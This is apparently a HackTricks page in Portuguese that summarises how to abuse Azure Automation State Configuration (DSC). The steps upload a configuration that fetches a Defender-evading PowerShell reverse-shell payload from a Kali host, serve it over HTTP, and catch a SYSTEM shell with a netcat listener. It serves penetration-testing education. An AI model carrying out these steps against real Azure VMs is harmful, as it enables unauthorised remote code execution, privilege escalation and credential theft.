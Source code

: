 # Az - State Configuration RCE

{{#include ../../../../banners/hacktricks-training.md}}

**Verifique o post completo em:** [**https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe**](https://medium.com/cepheisecurity/abusing-azure-dsc-remote-code-execution-and-privilege-escalation-ab8c35dd04fe)

### Resumo da Preparação da Infraestrutura do Servidor Remoto (C2) e Etapas

#### Visão Geral

O processo envolve a configuração de uma infraestrutura de servidor remoto para hospedar um payload modificado do Nishang `Invoke-PowerShellTcp.ps1`, chamado `RevPS.ps1`, projetado para contornar o Windows Defender. O payload é servido a partir de uma máquina Kali Linux com IP `40.84.7.74` usando um simples servidor HTTP em Python. A operação é executada através de várias etapas:

#### Etapa 1 — Criar Arquivos

- **Arquivos Necessários:** Dois scripts PowerShell são necessários:
1. `reverse_shell_config.ps1`: Um arquivo de Desired State Configuration (DSC) que busca e executa o payload. Ele pode ser obtido no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/reverse_shell_config.ps1).
2. `push_reverse_shell_config.ps1`: Um script para publicar a configuração na VM, disponível no [GitHub](https://github.com/nickpupp0/AzureDSCAbuse/blob/master/push_reverse_shell_config.ps1).
- **Personalização:** Variáveis e parâmetros nesses arquivos devem ser adaptados ao ambiente específico do usuário, incluindo nomes de recursos, caminhos de arquivos e identificadores de servidor/payload.

#### Etapa 2 — Compactar o Arquivo de Configuração

- O `reverse_shell_config.ps1` é compactado em um arquivo `.zip`, tornando-o pronto para transferência para a Conta de Armazenamento do Azure.
```powershell
Compress-Archive -Path .\reverse_shell_config.ps1 -DestinationPath .\reverse_shell_config.ps1.zip
```
#### Step 3 — Definir Contexto de Armazenamento e Fazer Upload

- O arquivo de configuração compactado é enviado para um contêiner de Armazenamento Azure predefinido, azure-pentest, usando o cmdlet Set-AzStorageBlobContent do Azure.
```powershell
Set-AzStorageBlobContent -File "reverse_shell_config.ps1.zip" -Container "azure-pentest" -Blob "reverse_shell_config.ps1.zip" -Context $ctx
```
#### Passo 4 — Preparar a Caixa Kali

- O servidor Kali baixa o payload RevPS.ps1 de um repositório do GitHub.
```bash
wget https://raw.githubusercontent.com/nickpupp0/AzureDSCAbuse/master/RevPS.ps1
```
- O script é editado para especificar a VM Windows de destino e a porta para o reverse shell.

#### Step 5 — Publish Configuration File

- O arquivo de configuração é executado, resultando na implantação do script de reverse-shell no local especificado na VM Windows.

#### Step 6 — Host Payload and Setup Listener

- Um Python SimpleHTTPServer é iniciado para hospedar o payload, junto com um listener Netcat para capturar conexões recebidas.
```bash
sudo python -m SimpleHTTPServer 80
sudo nc -nlvp 443
```
- A tarefa agendada executa o payload, alcançando privilégios de nível SYSTEM.

#### Conclusão

A execução bem-sucedida deste processo abre inúmeras possibilidades para ações adicionais, como extração de credenciais ou expansão do ataque para várias VMs. O guia incentiva a continuidade do aprendizado e a criatividade no âmbito do Azure Automation DSC.

{{#include ../../../../banners/hacktricks-training.md}}
